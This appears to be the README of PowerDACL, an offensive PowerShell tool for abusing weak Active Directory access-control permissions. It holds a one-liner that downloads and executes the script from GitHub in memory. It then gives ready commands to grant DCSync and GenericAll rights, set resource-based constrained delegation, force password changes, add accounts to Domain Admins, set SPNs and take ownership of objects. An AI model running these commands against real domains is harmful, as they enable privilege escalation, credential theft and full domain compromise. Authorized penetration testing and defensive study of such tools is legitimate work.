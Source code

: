 # PowerDACL
A tool to abuse weak permissions of Active Directory Discretionary Access Control Lists (DACLs) and Access Control Entries (ACEs)

## Load PowerDACL in memory

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/PowerDACL/main/PowerDACL.ps1')
```

## Help Page
```
PowerDACL
```

## Grant DCSync rights
```
DCSync -Target username -TargetDomain ferrari.local -TargetServer dc01.ferrari.local
```

## Grant GenericAll rights
```
GenericAll -Target MSSQL01$ -TargetDomain ferrari.local -TargetServer dc01.ferrari.local -Grantee username
```
```
GenericAll -Target MSSQL01$ -TargetDomain ferrari.local -TargetServer dc01.ferrari.local -Grantee username -GranteeDomain domain.local -GranteeServer dc02.domain.local
```

## Set RBCD:
```
RBCD -Target MSSQL01$ -TargetDomain ferrari.local -TargetServer dc01.ferrari.local -Grantee username
```
```
RBCD -Target MSSQL01$ -TargetDomain ferrari.local -TargetServer dc01.ferrari.local -Grantee username -GranteeDomain domain.local -GranteeServer dc02.domain.local
```
```
RBCD -Clear -Target MSSQL01$ -TargetDomain ferrari.local -TargetServer dc01.ferrari.local
```

## Add Computer to domain
```
AddComputer -ComputerName evilcomputer -Password P@ssw0rd! -Domain ferrari.local -Server dc01.ferrari.local
```
```
AddComputer -ComputerName evilcomputer -Domain ferrari.local -Server dc01.ferrari.local
```

## Delete Computer from domain
```
DeleteComputer -ComputerName evilcomputer -Domain ferrari.local -Server dc01.ferrari.local
```

## Force Change Password
```
ForceChangePass -Target username -Password P@ssw0rd! -TargetDomain ferrari.local -TargetServer dc01.ferrari.local
```

## Set SPN:
```
SetSPN -Target username -TargetDomain ferrari.local -TargetServer dc01.ferrari.local
```
```
SetSPN -Target username -TargetDomain ferrari.local -TargetServer dc01.ferrari.local -SPN "test/test"
```

## Remove SPN:
```
RemoveSPN -Target username -TargetDomain ferrari.local -TargetServer dc01.ferrari.local
```

## Set Owner
```
SetOwner -Target MSSQL01$ -TargetDomain ferrari.local -TargetServer dc01.ferrari.local -Owner username
```
```
SetOwner -Target MSSQL01$ -TargetDomain ferrari.local -TargetServer dc01.ferrari.local -Owner username -OwnerDomain domain.local -OwnerServer dc02.domain.local
```

## Enable Account
```
EnableAccount -Target myComputer$ -Domain ferrari.local -Server dc01.ferrari.local
```

## Disable Account
```
DisableAccount -Target myComputer$ -Domain ferrari.local -Server dc01.ferrari.local
```

## Add object to a group
```
AddToGroup -Target user -TargetDomain ferrari.local -TargetServer dc01.ferrari.local -Group "Domain Admins"
```
```
 AddToGroup -Target user -TargetDomain ferrari.local -TargetServer dc01.ferrari.local -Group "Domain Admins" -GroupDomain domain.local -GroupServer dc02.domain.local
```

## Remove object from a group
```
RemoveFromGroup -Target user -TargetDomain ferrari.local -TargetServer dc01.ferrari.local -Group "Domain Admins"
```
```
RemoveFromGroup -Target user -TargetDomain ferrari.local -TargetServer dc01.ferrari.local -Group "Domain Admins" -GroupDomain domain.local -GroupServer dc02.domain.local
```

## Modify or clear a property for an object
```
Set-DomainObject -Identity user -Set @{'userprincipalname' = "user@domain.com"}
```
```
Set-DomainObject -Identity user -Clear 'userprincipalname'
```

## Shadow Credentials

https://github.com/Leo4j/KeyCredentialLink
